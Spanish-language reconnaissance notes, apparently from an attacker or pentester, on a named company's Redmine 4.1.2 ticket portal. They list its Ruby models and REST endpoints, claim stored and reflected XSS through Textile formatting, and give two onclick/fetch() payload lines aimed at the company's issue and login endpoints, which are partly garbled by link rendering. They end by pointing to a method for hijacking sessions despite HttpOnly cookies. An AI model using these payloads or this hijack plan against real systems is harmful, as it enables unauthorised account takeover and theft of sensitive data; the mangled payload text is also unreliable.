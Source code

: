 

[tickets.teknosgroup.com](http://tickets.teknosgroup.com) es una aplicación de gestión de tareas y proyectos.

Este portal es una de los principales nexos de información sensible entrante y saliente.

El portal está desarrolado con el software open source de gestion de proyectos [redmine.org](http://redmine.org)

Redmine está desarrollado con Ruby on Rails, un framework de desarrollo web en el lenguaje Ruby.

El back end funciona con una API Rest muy convencional.

```
Modelos programados
en rubi:

enabled_module.rb
enumeration.rb
group.rb
group_anonymous.rb
group_builtin.rb
group_custom_field.rb
group_non_member.rb
import.rb
import_item.rb
issue.rb
issue_category.rb
issue_custom_field.rb
issue_import.rb
issue_priority.rb
issue_priority_custom_field.rb
issue_query.rb
issue_relation.rb
issue_status.rb
journal.rb
journal_detail.rb
mail_handler.rb
mailer.rb
member.rb
member_role.rb
message.rb
news.rb
principal.rb
project.rb
project_custom_field.rb
project_query.rb
query.rb
repository.rb
role.rb
setting.rb
time_entry.rb
time_entry_activity.rb
time_entry_activity_custom_field.rb
time_entry_custom_field.rb
time_entry_import.rb
time_entry_query.rb
token.rb
tracker.rb
user.rb
user_custom_field.rb
user_import.rb
user_preference.rb
user_query.rb
version.rb
version_custom_field.rb
watcher.rb
wiki.rb
wiki_annotate.rb
wiki_content.rb
wiki_content_version.rb
wiki_diff.rb
wiki_page.rb
wiki_redirect.rb
workflow_permission.rb
workflow_rule.rb
workflow_transition.rb
```

```
Endpoints
de API rest

Issues
Projects
Project Memberships
Users
Time Entries
News
Issue Relations	
Versions
Wiki Pages
Queries
Attachments
Issue Statuses
Trackers	
Enumerations
Issue Categories
Roles
Groups	
Custom Fields
Search	
Files	
My account
```

Redmine en version 4.1.2 es vulnerable a XSS almacenado y reflejado usando textile formating y backuotes [[XSS-Almacenado en tickets.teknosgroup.com]]

bq:"onclick="fetch('[https://dev.sporte.teknosgroup.com/issues.json',{method:'POST',headers:{'Content-type':'application/json'},body:{key1:'value1',key2:'value2](https://dev.sporte.teknosgroup.com/issues.json',%7Bmethod:'POST',headers:%7B'Content-type':'application/json'%7D,body:%7Bkey1:'value1',key2:'value2)'}};

bq.:"onclick="alert(fetch('[https://dev.soporte.teknosgroup.com/login',{method:'POST](https://dev.soporte.teknosgroup.com/login',%7Bmethod:'POST)'})) ?=?=?????????????

La cookie de la sesión no puede ser exfiltrada directamente pq es HTTP only. Pero hay un posible método detallado en este post [https://medium.com/@yassergersy/xss-to-session-hijack-6039e11e6a81](https://medium.com/@yassergersy/xss-to-session-hijack-6039e11e6a81)